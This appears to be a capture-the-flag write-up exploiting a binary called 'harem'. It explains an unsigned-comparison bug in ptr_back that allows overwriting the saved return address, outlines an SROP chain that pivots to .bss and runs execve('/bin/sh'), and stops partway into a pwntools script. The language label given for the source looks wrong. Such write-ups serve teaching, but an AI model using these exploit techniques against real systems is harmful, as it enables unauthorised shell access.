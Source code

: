 ```wuffs
        };
    };
};
```
We have the source code of the binary which writtern in [wuffs language](https://github.com/google/wuffs/blob/main/doc/wuffs-the-language.md).

There is a bug in the function `ptr-back`:

```
fn ptr_back(p: *u8) void = {
    if (*p - 1 < 0) {
        fmt::println("error: out of bounds seek")!;
    } else {  
        *p -= 1;
    };
    return;
};
```
Because the type of p is unsigned, `*p-1` never be `less` than `0`.

I will take advantage of this bug to set `idx = 0xa`. So we can overwrite `saved $RIP`.

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/3f92a732-3ad9-4b9e-a208-985aa0bb169a)

`Checksec` tells us that the binary has `RWX` segment. But when I check in `gdb`, there is no `RWX` segment so we must forcus on `ROP` attack.

![image](https://user-images.githubusercontent.com/31349426/257211640-2132743b-b96e-4e4d-83ae-d266204e2ca3.png)

Almost gadgets are end of with `leave ;ret `, so it's so hard to use these gadgets to create a useful rop chain.

But when analyzing functions list, I found the `rt_restore_si` function:

![image](https://user-images.githubusercontent.com/31349426/257212223-22eebbc5-605d-4a27-bf2a-adbd6a567811.png)


So I will use `SROP` technique to exploit this binary. Because there is no `/bin/sh` string in the binary, I must find the way to store `/bin/sh` on `.bss` segment.

This is my stratergy:

1. Create a `SROP` chain that does stack pivot to `.bss` segment.

2. Create a `SROP` chain that call `execve("/bin/sh",0,0)` (We can store `/bin/sh` after the chain to ensure the address of string `/bin/sh` are always fixale).

```python
#!/usr/bin/env python
from pwn import *
from time import sleep
from os import popen
context.binary = e = ELF("./harem")

gs="""
b *0x00000000080009E3 
"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE:
        p=remote(args.HOST,int(args.PORT))
        p.recvuntil(b'proof of work: ')
        cmd = p.recvline().decode()
```